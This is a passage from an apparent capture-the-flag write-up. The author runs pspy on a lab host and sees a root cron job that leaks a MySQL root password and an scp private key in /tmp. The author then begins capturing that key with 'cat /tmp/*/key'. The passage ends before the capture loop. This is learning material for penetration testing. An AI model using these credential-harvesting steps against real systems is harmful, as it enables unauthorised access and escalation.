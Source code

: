 

    jack@mysql:~$ cat <&3 > p



When it's done, check both hashes to make sure it worked:



    jack@mysql:~$ md5sum p
    e04a36bb5444f2275990567614e1f509  p





    oxdf@hacky$ md5sum pspy64
    e04a36bb5444f2275990567614e1f509  pspy64



Now I'll run `pspy`. It initially shows the processes that are already
running, but there's not much there. However, every minute it shows
something like this:



    2021/10/09 10:57:01 CMD: UID=0    PID=52954  | runc init 
    2021/10/09 10:57:01 CMD: UID=0    PID=52959  | runc init 
    2021/10/09 10:57:01 CMD: UID=0    PID=52965  | sh -c mysqldump wordpress -uroot -pOnlyTheBestSecretsGoInShellScripts > /tmp/tmp.bJUwfFuUOB/backup.txt 
    2021/10/09 10:57:01 CMD: UID=0    PID=52966  | runc init 
    2021/10/09 10:57:01 CMD: UID=0    PID=52974  | runc init 
    2021/10/09 10:57:01 CMD: UID=0    PID=52981  | runc init 
    2021/10/09 10:57:01 CMD: UID=0    PID=52987  | scp -o StrictHostKeyChecking=no -i /tmp/tmp.bJUwfFuUOB/key /tmp/tmp.bJUwfFuUOB/backup.txt jack@172.69.0.1:/home/jack/backups/1633777021.txt 
    2021/10/09 10:57:03 CMD: UID=0    PID=52988  | runc init



It looks like it's dumping the database, and then copying the result
using `scp` back to 172.169.0.1, which is likely the host.

Whatever cron is doing this must be creating the temp directory in
`/tmp` (likely using `mktemp -d` based on the dir name), and then
cleaning up when it's done.

### Capture Key

If I try to run that `cat` command when there's nothing there, it
errors, and the return code is 1:



    jack@mysql:~$ cat /tmp/*/key
    cat: '/tmp/*/key': No such file or directory
    jack@mysql:~$ echo $?
    1



I'll use a loop like this:

